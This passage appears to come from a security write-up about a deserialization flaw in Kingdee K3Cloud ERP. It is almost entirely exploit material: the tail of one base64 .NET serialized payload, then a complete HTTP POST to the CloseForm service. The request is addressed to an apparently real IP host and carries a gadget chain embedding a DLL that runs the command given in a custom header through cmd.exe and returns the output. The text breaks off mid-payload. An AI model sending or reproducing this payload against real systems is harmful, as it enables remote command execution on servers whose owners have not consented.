LjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldLFtTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0EAAAACSIAAAAQFgAAAAcAAAAJBgAAAAkwAAAACTEAAAAKCAgAAAAACggIAQAAAAEXAAAADwAAAAYyAAAA7wFTeXN0ZW0uTGlucS5FbnVtZXJhYmxlK1doZXJlU2VsZWN0RW51bWVyYWJsZUl0ZXJhdG9yYDJbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldLFtTeXN0ZW0uT2JqZWN0LCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAJIgAAABAYAAAABwAAAAkHAAAACgk1AAAACggIAAAAAAoICAEAAAABGQAAAA8AAAAGNgAAAClTeXN0ZW0uV2ViLlVJLldlYkNvbnRyb2xzLlBhZ2VkRGF0YVNvdXJjZQQAAAAGNwAAAE1TeXN0ZW0uV2ViLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49YjAzZjVmN2YxMWQ1MGEzYRAaAAAABwAAAAkIAAAACAgAAAAACAgKAAAACAEACAEACAEACAgAAAAAARsAAAAPAAAABjkAAAApU3lzdGVtLkNvbXBvbmVudE1vZGVsLkRlc2lnbi5EZXNpZ25lclZlcmIEAAAABjoAAABJU3lzdGVtLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4ORAcAAAABQAAAA0CCTsAAAAICAMAAAAJCwAAAAEdAAAADwAAAAY9AAAANFN5c3RlbS5SdW50aW1lLlJlbW90aW5nLkNoYW5uZWxzLkFnZ3JlZ2F0ZURpY3Rpb25hcnkEAAAABj4AAABLbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5EB4AAAABAAAACQkAAAAQHwAAAAIAAAAJCgAAAAkKAAAAECAAAAACAAAABkEAAAAACUEAAAAEJAAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAgAAAAhEZWxlZ2F0ZQdtZXRob2QwAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCUIAAAAJQwAAAAEoAAAAJAAAAAlEAAAACUUAAAABLAAAACQAAAAJRgAAAAlHAAAAATAAAAAkAAAACUgAAAAJSQAAAAExAAAAJAAAAAlKAAAACUsAAAABNQAAACQAAAAJTAAAAAlNAAAAATsAAAAEAAAACU4AAAAJTwAAAARCAAAAMFN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQcAAAAEdHlwZQhhc3NlbWJseQZ0YXJnZXQSdGFyZ2V0VHlwZUFzc2VtYmx5DnRhcmdldFR5cGVOYW1lCm1ldGhvZE5hbWUNZGVsZWdhdGVFbnRyeQEBAgEBAQMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BlAAAADVAVN5c3RlbS5GdW5jYDJbW1N5c3RlbS5CeXRlW10sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5LCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQk+AAAACgk+AAAABlIAAAAaU3lzdGVtLlJlZmxlY3Rpb24uQXNzZW1ibHkGUwAAAARMb2FkCgRDAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyBwAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlClNpZ25hdHVyZTIKTWVtYmVyVHlwZRBHZW5lcmljQXJndW1lbnRzAQEBAQEAAwgNU3lzdGVtLlR5cGVbXQlTAAAACT4AAAAJUgAAAAZWAAAAJ1N5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5IExvYWQoQnl0ZVtdKQZXAAAALlN5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5IExvYWQoU3lzdGVtLkJ5dGVbXSkIAAAACgFEAAAAQgAAAAZYAAAAzAJTeXN0ZW0uRnVuY2AyW1tTeXN0ZW0uUmVmbGVjdGlvbi5Bc3NlbWJseSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmFibGVgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQk+AAAACgk+AAAACVIAAAAGWwAAAAhHZXRUeXBlcwoBRQAAAEMAAAAJWwAAAAk+AAAACVIAAAAGXgAAABhTeXN0ZW0uVHlwZVtdIEdldFR5cGVzKCkGXwAAABhTeXN0ZW0uVHlwZVtdIEdldFR5cGVzKCkIAAAACgFGAAAAQgAAAAZgAAAAtgNTeXN0ZW0uRnVuY2AyW1tTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYWJsZWAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhdG9yYDFbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JPgAAAAoJPgAAAAZiAAAAhAFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYWJsZWAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0GYwAAAA1HZXRFbnVtZXJhdG9yCgFHAAAAQwAAAAljAAAACT4AAAAJYgAAAAZmAAAARVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhdG9yYDFbU3lzdGVtLlR5cGVdIEdldEVudW1lcmF0b3IoKQZnAAAAlAFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYXRvcmAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0gR2V0RW51bWVyYXRvcigpCAAAAAoBSAAAAEIAAAAGaAAAAMACU3lzdGVtLkZ1bmNgMltbU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmF0b3JgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldLFtTeXN0ZW0uQm9vbGVhbiwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JPgAAAAoJPgAAAAZqAAAAHlN5c3RlbS5Db2xsZWN0aW9ucy5JRW51bWVyYXRvcgZrAAAACE1vdmVOZXh0CgFJAAAAQwAAAAlrAAAACT4AAAAJagAAAAZuAAAAEkJvb2xlYW4gTW92ZU5leHQoKQZvAAAAGVN5c3RlbS5Cb29sZWFuIE1vdmVOZXh0KCkIAAAACgFKAAAAQgAAAAZwAAAAvQJTeXN0ZW0uRnVuY2AyW1tTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYXRvcmAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQk+AAAACgk+AAAABnIAAACEAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhdG9yYDFbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQZzAAAAC2dldF9DdXJyZW50CgFLAAAAQwAAAAlzAAAACT4AAAAJcgAAAAZ2AAAAGVN5c3RlbS5UeXBlIGdldF9DdXJyZW50KCkGdwAAABlTeXN0ZW0uVHlwZSBnZXRfQ3VycmVudCgpCAAAAAoBTAAAAEIAAAAGeAAAAMYBU3lzdGVtLkZ1bmNgMltbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5PYmplY3QsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dCT4AAAAKCT4AAAAGegAAABBTeXN0ZW0uQWN0aXZhdG9yBnsAAAAOQ3JlYXRlSW5zdGFuY2UKAU0AAABDAAAACXsAAAAJPgAAAAl6AAAABn4AAAApU3lzdGVtLk9iamVjdCBDcmVhdGVJbnN0YW5jZShTeXN0ZW0uVHlwZSkGfwAAAClTeXN0ZW0uT2JqZWN0IENyZWF0ZUluc3RhbmNlKFN5c3RlbS5UeXBlKQgAAAAKAU4AAAAPAAAABoAAAAAmU3lzdGVtLkNvbXBvbmVudE1vZGVsLkRlc2lnbi5Db21tYW5kSUQEAAAACToAAAAQTwAAAAIAAAAJggAAAAgIACAAAASCAAAAC1N5c3RlbS5HdWlkCwAAAAJfYQJfYgJfYwJfZAJfZQJfZgJfZwJfaAJfaQJfagJfawAAAAAAAAAAAAAACAcHAgICAgICAgITE9J07irREYv7AKDJDyb3Cws=","format": "3"}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231218201440-04e08b6c-9d9f-1.png)

```plain
POST /k3cloud/Kingdee.BOS.ServiceFacade.ServicesStub.DynamicForm.DynamicFormService.CloseForm.common.kdsvc HTTP/1.1
Host: 221.6.180.50:82
User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Content-Type: text/json
xxxxx: dir
Accept-Encoding: gzip, deflate
Content-Length: 15909

{"ap0": "AAEAAAD/////AQAAAAAAAAAMAgAAAFdTeXN0ZW0uV2luZG93cy5Gb3JtcywgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkFAQAAACFTeXN0ZW0uV2luZG93cy5Gb3Jtcy5BeEhvc3QrU3RhdGUBAAAAEVByb3BlcnR5QmFnQmluYXJ5BwICAAAACQMAAAAPAwAAAMctAAACAAEAAAD/////AQAAAAAAAAAEAQAAAH9TeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5MaXN0YDFbW1N5c3RlbS5PYmplY3QsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dAwAAAAZfaXRlbXMFX3NpemUIX3ZlcnNpb24FAAAICAkCAAAACgAAAAoAAAAQAgAAABAAAAAJAwAAAAkEAAAACQUAAAAJBgAAAAkHAAAACQgAAAAJCQAAAAkKAAAACQsAAAAJDAAAAA0GBwMAAAABAQAAAAEAAAAHAgkNAAAADA4AAABhU3lzdGVtLldvcmtmbG93LkNvbXBvbmVudE1vZGVsLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNQUEAAAAalN5c3RlbS5Xb3JrZmxvdy5Db21wb25lbnRNb2RlbC5TZXJpYWxpemF0aW9uLkFjdGl2aXR5U3Vycm9nYXRlU2VsZWN0b3IrT2JqZWN0U3Vycm9nYXRlK09iamVjdFNlcmlhbGl6ZWRSZWYCAAAABHR5cGULbWVtYmVyRGF0YXMDBR9TeXN0ZW0uVW5pdHlTZXJpYWxpemF0aW9uSG9sZGVyDgAAAAkPAAAACRAAAAABBQAAAAQAAAAJEQAAAAkSAAAAAQYAAAAEAAAACRMAAAAJFAAAAAEHAAAABAAAAAkVAAAACRYAAAABCAAAAAQAAAAJFwAAAAkYAAAAAQkAAAAEAAAACRkAAAAJGgAAAAEKAAAABAAAAAkbAAAACRwAAAABCwAAAAQAAAAJHQAAAAkeAAAABAwAAAAcU3lzdGVtLkNv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b2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlJlZmxlY3Rpb24uQXNzZW1ibHksIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dBAAAAAYiAAAATlN5c3RlbS5Db3JlLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4ORAQAAAABwAAAAkDAAAACgkkAAAACggIAAAAAAoICAEAAAABEQAAAA8AAAAGJQAAAPUCU3lzdGVtLkxpbnEuRW51bWVyYWJsZStXaGVyZVNlbGVjdEVudW1lcmFibGVJdGVyYXRvcmAyW1tTeXN0ZW0uUmVmbGVjdGlvbi5Bc3NlbWJseSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmFibGVgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAJIgAAABASAAAABwAAAAkEAAAACgkoAAAACggIAAAAAAoICAEAAAABEwAAAA8AAAAGKQAAAN8DU3lzdGVtLkxpbnEuRW51bWVyYWJsZStXaGVyZVNlbGVjdEVudW1lcmFibGVJdGVyYXRvcmAyW1tTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYWJsZWAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1u